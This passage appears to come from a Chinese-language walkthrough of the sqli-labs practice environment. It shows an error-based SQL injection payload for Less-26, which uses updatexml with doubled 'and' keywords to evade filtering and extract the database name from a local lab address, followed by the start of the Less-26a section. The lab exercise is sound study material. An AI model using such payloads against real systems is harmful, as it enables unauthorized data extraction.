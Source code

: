 ![](file/image_VwStZFFlSP.png)

```sql
http://192.168.65.128/sqli-labs/Less-26/?id=1' 
anandd(updatexml(1,concat(0x7e,(select(database()))),1)) anandd '1'='1
```

![](file/image_1Qx_WaIxbo.png)

### Less-26a：GET -Blind Based - All your SPACES and COMMENTS belong to us -string-singlequotes-Parenthesis

**注入类型**

布尔盲注

**闭合方式**
